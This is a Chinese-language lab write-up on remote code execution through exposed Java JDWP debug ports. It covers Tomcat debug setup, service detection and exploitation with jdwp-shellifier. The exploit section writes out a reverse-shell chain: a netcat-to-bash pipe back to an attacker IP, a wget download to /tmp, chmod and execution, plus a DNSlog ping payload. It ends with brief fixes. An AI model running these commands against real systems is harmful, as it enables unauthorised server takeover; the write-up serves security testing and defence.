 # JDWP调试接口 RCE 漏洞

# JDWP调试接口 RCE 漏洞

## 漏洞描述

JDWP（Java Debug Wire Protocol，Java调试线协议）是一个为Java调试而设计的通讯交互协议，它定义了调试器（Debugger）和被调试JVM（Debuggee）进程之间的交互数据的传递格式，它详细完整地定义了请求命令、回应数据和错误代码，保证了调试端和被调试端之间通信通畅。

JDWP是JVM或者类JVM的虚拟机都支持的一种协议，通过该协议，Debugger端和被调试JVM之间进行通信，可以获取被调试JVM的包括类、对象、线程等信息。

参考阅读：

- https://forum.butian.net/share/1232

## 环境搭建

### Windows

下载Tomcat到本地，在`bin\startup.bat`文件中添加如下代码开启debug模式：

```
SET CATALINA_OPTS=-server -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=8000
```

点击运行 `startup.bat` ，以debug模式启动Tomcat。

`Listening for transport dt_socket at address: 8000`，表示JDWP服务已经监听在8000端口，等待调试器连接。

### Linux

执行如下命令安装Tomcat：

```
# 执行wget命令下载Tomcat安装包
wget http://mirror.bit.edu.cn/apache/tomcat/tomcat-8/v8.5.43/bin/apache-tomcat-8.5.43.tar.gz

# 解压安装包
tar zxvf apache-tomcat-8.5.43.tar.gz

# 将程序安装包复制到指定运行目录下
sudo mv apache-tomcat-8.5.43 /usr/local/tomcat8
```

启动方式一：

进入Tomcat安装目录下的bin目录下找到 `catalina.sh` 文件，在文件开头部分添加如下一行：

```shell
CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=*:8000"
```

修改完成后，执行脚本`./startup.sh`就会以debug模式启动Tomcat。

启动方式二：

进入Tomcat的bin目录，输入 `./catalina.sh jpda run` 或者 `./catalina.sh jpda start` 命令以调试模式启动tomcat。
启动时就会出现如下信息提示：
`Listening for transport dt_socket at address: 8000`。

注意脚本中默认配置JDWP是监听在本地的8000端口，修改`JDPA_ADDRESS`的值对外开放此端口，在JDK9及以上的版本需要修改为`JDPA_ADDRESS=*:8000` ，在JDK9以下版本修改为`JDPA_ADDRESS=8000` 即可

## 漏洞检测

有三种常用方式来进行JDWP服务探测，原理都是一样的，即向目标端口连接后发送JDWP-Handshake，如果目标服务直接返回一样的内容则说明是JDWP服务。

### Nmap

扫描会识别到JDWP服务，且有对应的JDK版本信息。

```shell
nmap -sT -sV 192.168.192.1 -p 8000
```

### Telnet

使用Telnet命令探测，需要马上输入JDWP-Handshake，然后服务端返回一样的内容，证明是JDWP服务。

```shell
telnet 192.168.182.130 8000
```

注意：需要马上输入JDWP-Handshake，并按下回车，不然马上就会断开。在Linux系统下使用telnet测试可以，在Windows系统下使用telnet测试不太行。

### Python

使用如下脚本扫描，直接连接目标服务器，并向目标发送JDWP-Handshake，如果能接收到相同内容则说明目标是开启了JDWP服务。

```
import socket

host = "192.168.182.130"
port = 8000
try:
    client = socket.socket()
    client.connect((host, port))
    client.send(b"JDWP-Handshake")
    if client.recv(1024) == b"JDWP-Handshake":
        print("[*] {}:{} Listening JDWP Service! ".format(host, port))
except Exception as e:
    print("[-] Connection failed! ")
finally:
    client.close()
```

## 漏洞POC

### POC1

poc1：https://github.com/IOActive/jdwp-shellifier
jdwp-shellifier是使用Python2编写的，该工具通过编写了一个JDI（JDWP客户端），以下断点的方式来获取线程上下文从而调用方法执行命令。

该漏洞无回显，可利用dnslog进行探测：

```
python2 jdwp-shellifier.py -t 192.168.3.118 -p 8787 --break-on "java.lang.String.indexof" --cmd "ping xxx.dnslog.cn"
```

#### 反弹shell

准备反弹shell文件，保存为shell.txt：

```
nc 192.168.178.129 3333 | /bin/bash | nc 192.168.178.129 4444%
```

启动http服务：

```
python3 -m http.server 8000
```

开启监听，需要开启2个监听，前面一个输入执行命令，后面一个输出命令执行结果：

```
nc -lvvp 3333
nc -lvvp 4444
```

利用poc1执行命令，下载shell、文件可执行权限、执行shell：

```
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "wget http://192.168.178.129:8000/shell.txt -O /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "chmod a+x /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "/tmp/shell.sh"
```

两个监听都收到shell，一个输入命令，一个输出结果。

![image-20230630173638801](images/image-20230630173638801.png)

### POC2

poc2：https://github.com/Lz1y/jdwp-shellifier
该脚本是在上面一个漏洞利用脚本的基础上，修改利用方式为通过对Sleeping的线程发送单步执行事件，达成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中。

## 修复建议

- 关闭JDWP端口，或者JDWP端口不对公网开放
- 关闭Java的debug模式

